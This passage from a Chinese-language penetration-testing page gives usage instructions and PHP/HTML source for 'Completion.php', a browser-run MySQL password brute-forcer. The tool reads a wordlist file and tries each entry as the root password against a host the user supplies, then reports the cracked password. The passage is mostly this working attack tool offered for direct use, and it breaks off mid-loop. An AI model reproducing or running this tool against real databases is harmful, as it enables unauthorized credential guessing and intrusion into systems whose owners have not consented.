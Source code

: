 

![](image60/60-8.png)

#### 爆破猜解

##### 服务器本地爆破

**Completion.php**

用法：保存为Completion.php文件，将密码字典放置同目录下为pwd.txt文件，浏览器打开就可使用。

```php+HTML
<html>
 <head>
  <title>Mysql账号密码在线爆破工具</title>
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
 </head>
 <body>
  <center>
   <br><br>
   <h1>Mysql账号密码在线爆破工具 V2.0</h1>
  <br>
<?php
 if(@$_POST['submit']){
   $host = @$_POST['host'];
   if($host!==""){
    $username = "root";//用户名字典
	$password = array();
	$filename = "pwd.txt"; //同目录下密码字典
	$i=0;
	$file = fopen($filename,'r');
	while(! feof($file)){
		$password[$i] = fgets($file);
		$i++;
	}


	fclose($file);
    echo "<hr><br>-----------------------爆破状态-----------------------<br>";
    for ($l=0; $l <= count($password); $l++) {
		$password1 = trim($password[$l]);	//除去左右空白
		if(@mysql_connect($host, $username, $password1)){
			echo "<script>alert('数据库密码为：{$password1}')</script>";
			echo "<br><br><font color='red'>爆破成功--密码-->".@$password1."</font>";
```